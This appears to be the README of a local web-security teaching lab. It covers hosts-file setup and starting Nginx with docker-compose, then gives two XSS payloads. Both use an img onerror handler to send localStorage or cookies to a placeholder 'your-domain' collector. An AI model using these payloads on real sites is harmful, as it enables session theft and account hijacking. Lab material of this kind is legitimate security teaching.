 # Web Application Security
The application runs on the "local.dev" domain, and you should define the domain on your "hosts" file.
```shell
127.0.0.1	local.dev
```
## Where is the Hosts File Located?
- Windows 10 - `C:\Windows\System32\drivers\etc\hosts`
- Linux - `/etc/hosts`
- Mac OS X - `/private/etc/hosts`

## How to start Nginx
Run the following command to run the Nginx. Docker compose is located in the web directory
```shell
docker-compose up
```


## Sample of XSS attack
Inject the sample code below to see how the XSS attack works

### Stealing local storage
```html
<img src=x onerror=this.onerror=null;this.src='http://your-domain/gateway/api/cookie/collect.gif?cookie='+encodeURIComponent(JSON.stringify(window.localStorage)) />
```

### Stealing insecure cookie
```html
<img src=x onerror=this.onerror=null;this.src='http://your-domain/gateway/api/cookie/collect.gif?cookie='+document.cookie />
```